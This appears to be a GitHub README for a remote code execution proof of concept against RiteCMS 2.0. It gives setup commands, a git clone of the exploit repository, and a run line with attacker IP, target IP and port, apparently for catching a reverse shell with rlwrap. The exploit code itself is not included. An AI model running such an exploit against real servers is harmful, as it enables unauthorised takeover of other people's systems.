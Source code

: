 # RiteCMS-2.0-Remote-Code-Execution
Remote Code Execution PoC to exploit RiteCMS 2.0
```
python3 ritecms2.0-exploit.py -i <IP> -t <target-IP> -p <port>
```
### Install pip
```
pip3 install requests
pip3 install argparse
pip3 install subprocess
```
### Install rlwrap
```
sudo apt install rlwrap
```
## Steps to reproduce
```
git clone https://github.com/x0root/RiteCMS-2.0-RCE-PoC && cd RiteCMS-2.0-RCE-PoC
```
```
python3 ritecms2.0-exploit.py -i 192.168.1.10 -t 192.168.1.20 -p 4444
```

## NOTE
If first run does not work, try to run again.
